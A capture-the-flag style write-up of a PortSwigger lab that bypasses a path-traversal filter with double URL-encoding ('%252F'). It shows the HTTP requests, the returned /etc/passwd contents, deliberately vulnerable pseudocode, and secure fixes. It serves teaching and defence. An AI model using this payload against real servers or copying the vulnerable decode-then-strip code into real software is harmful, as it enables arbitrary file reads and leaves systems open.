




# Lab 04: File Path Traversal, Traversal Sequences Stripped with Superfluous URL-Decode

> **Topic**: Path Traversal
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
Path Traversal — Double URL Encoding Bypass (Superfluous URL-Decode Filter)

## Vulnerability Summary
The application serves product images via `GET /image?filename=<value>` and attempts to block path traversal by URL-decoding the input and then stripping `../` sequences. However, the server performs a second URL-decode when passing the value to the filesystem layer. By double-encoding the `/` in `../` as `%252F` (where `%25` is the URL-encoded form of `%`), the filter decodes `%252F` to `%2F` (which contains no `../` to strip), but the filesystem layer decodes `%2F` to `/`, reconstructing `../` and achieving traversal.

## Attack Methodology

### Step 1: Identify the Image Endpoint
```http
GET /image?filename=45.jpg HTTP/2
Host: 0a5e009503cfa21d818ba301001100ab.web-security-academy.net
Cookie: session=1YMw1lZsHbU2a93w4iuCcNldycm0xz85
```

### Step 2: Test Single URL-Encoded Payload (Blocked)
Encoding `../../../etc/passwd` with standard URL encoding (`%2e%2e%2f`):

```http
GET /image?filename=%2e%2e%2fetc%2e%2e%2fpasswd HTTP/2
```

Response: `HTTP/2 400 Bad Request` — `"No such file"`. The filter URL-decodes the input first, reconstructs `../`, strips it, and the remaining path is invalid.

### Step 3: Understand the Double-Decode Vulnerability
The filter pipeline is:

```
User input → URL-decode (filter) → strip ../ → URL-decode (server) → filesystem
```

If `/` is encoded as `%2F`, the filter decodes `%2F` → `/`, sees `../`, and strips it.  
But if `/` is double-encoded as `%252F`:

```
Filter decodes:  %252F → %2F   (filter sees "..%2F", no "../" pattern → passes)
Server decodes:  %2F   → /     (server reconstructs "../" → traversal achieved)
```

### Step 4: Build the Double-Encoded Payload
Encoding chain for one traversal level:

```
../   →  (URL-encode /)  →  ..%2F   →  (URL-encode %)  →  ..%252F
```

Screenshots show this process using an online URL encoder:
- First encode: `../` → `..%2F`
- Second encode of `%`: `..%2F` → `..%252F`

Three levels for `/etc/passwd`:

```
../../../etc/passwd  →  ..%252F..%252F..%252Fetc%252Fpasswd
```

### Step 5: Send the Double-Encoded Payload

```http
GET /image?filename=..%252F..%252F..%252Fetc%252Fpasswd HTTP/2
Host: 0a5e009503cfa21d818ba301001100ab.web-security-academy.net
Cookie: session=1YMw1lZsHbU2a93w4iuCcNldycm0xz85
```

### Step 6: Server Returns `/etc/passwd`

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

200 OK with full `/etc/passwd` contents. Lab solved.









## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import os
import urllib.parse

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Filter: decode once, then strip ../
    decoded = urllib.parse.unquote(filename)
    sanitized = decoded.replace('../', '')
    # Server framework decodes the original filename again before filesystem access
    path = os.path.join(IMAGE_DIR, urllib.parse.unquote(filename))
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

The filter sanitizes `decoded` (one decode) but the filesystem uses `urllib.parse.unquote(filename)` again — a second decode of the original input. These two code paths operate on different values.

### Decode Chain Visualised

```
Input:          ..%252F..%252F..%252Fetc%252Fpasswd

Filter path:
  unquote()  →  ..%2F..%2F..%2Fetc%2Fpasswd
  replace()  →  ..%2F..%2F..%2Fetc%2Fpasswd  (no "../" found, nothing stripped)
  ✅ filter passes

Filesystem path:
  unquote()  →  ..%2F..%2F..%2Fetc%2Fpasswd
  (framework decodes again internally)
  unquote()  →  ../../../etc/passwd
  os.path.join → /etc/passwd
  ✅ traversal achieved
```

### Secure Code
```python
import os
import urllib.parse

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Fully decode before any check (loop until stable)
    decoded = filename
    while True:
        next_decoded = urllib.parse.unquote(decoded)
        if next_decoded == decoded:
            break
        decoded = next_decoded
    # Resolve canonical path and enforce boundary
    path = os.path.realpath(os.path.join(IMAGE_DIR, decoded))
    if not path.startswith(IMAGE_DIR + os.sep):
        return HttpResponseForbidden('Access denied')
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

Decoding to a stable fixed point before any check ensures no encoding layer can survive to be decoded later by the filesystem.

## Impact
- **Filter Completely Bypassed**: A filter that decodes once is defeated by double-encoding; one that decodes twice is defeated by triple-encoding. Only decoding to a stable fixed point is safe.
- **Arbitrary File Read**: Any file readable by the web server process is accessible
- **No Authentication Required**: The endpoint is publicly accessible

**Severity: High**

## Proof of Concept

```
GET /image?filename=..%252F..%252F..%252Fetc%252Fpasswd HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response: `HTTP/2 200 OK` with full `/etc/passwd` contents.

## Key Takeaways
1. **Decode to a Fixed Point Before Checking**: A single `unquote()` call is not enough. An attacker can always add one more layer of encoding. The correct approach is to decode in a loop until the string stops changing, then validate the stable result.
2. **Filter and Filesystem Must Operate on the Same Value**: The root cause here is that the filter sanitizes one representation of the input while the filesystem receives a different one. Any time the sanitization path and the execution path diverge, there is a potential bypass.
3. **`%25` Is the Encoding of `%`**: Double-encoding works because `%` itself is a valid URL character that can be encoded as `%25`. `%252F` decodes to `%2F` (not `/`) in one pass. This is a standard technique for bypassing single-pass URL-decode filters.
4. **Canonical Path Check Is Encoding-Agnostic**: `os.path.realpath` resolves the path after all OS-level decoding. A boundary check on the result is immune to all encoding variants regardless of how many layers are used.

## Mitigation

### 1. Decode to Fixed Point + Canonical Path Check
```python
decoded = filename
while True:
    next_val = urllib.parse.unquote(decoded)
    if next_val == decoded:
        break
    decoded = next_val

path = os.path.realpath(os.path.join(IMAGE_DIR, decoded))
if not path.startswith(IMAGE_DIR + os.sep):
    abort(403)
```

### 2. Allowlist Filename Format (Strongest)
```python
import re
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.(jpg|jpeg|png|gif|webp)', filename):
    abort(400)
```
A plain filename allowlist rejects all encoding variants before any decoding or path construction occurs.

## References
- [PortSwigger — File Path Traversal, Traversal Sequences Stripped with Superfluous URL-Decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
- [PortSwigger — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP — Double Encoding](https://owasp.org/www-community/attacks/Double_Encoding)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [CWE-116: Improper Encoding or Escaping of Output](https://cwe.mitre.org/data/definitions/116.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- URL Encode/Decode Online Tool
- Chromium

---

*Lab completed on: 2026-05-08*  
*Writeup by vibhxr*
